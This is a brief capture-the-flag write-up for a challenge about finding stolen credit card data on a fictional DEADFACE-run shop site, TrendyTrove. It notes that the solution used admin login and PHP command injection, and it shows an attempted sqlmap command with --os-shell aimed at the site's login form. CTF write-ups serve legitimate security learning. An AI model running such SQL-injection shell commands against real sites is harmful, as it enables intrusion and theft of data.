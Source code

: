 # Compromised Data

Several victims provided credit card information to TrendyTrove. 
We believe DEADFACE kept this information on the web server somewhere. 
See if you can find the flag associated with this data.

Submit the flag as flag{flag-text}.

TrendyTrove

## Solution

So I guess I missed it, but log in as admin and eventually you can do PHP command injection.
Flag is in a csv on the filesystem...

## Attempt

```sh
sqlmap -u "https://trendytrove.deadface.io/login.php" --data "username=*&password=*" --os-shell "pwd"
```
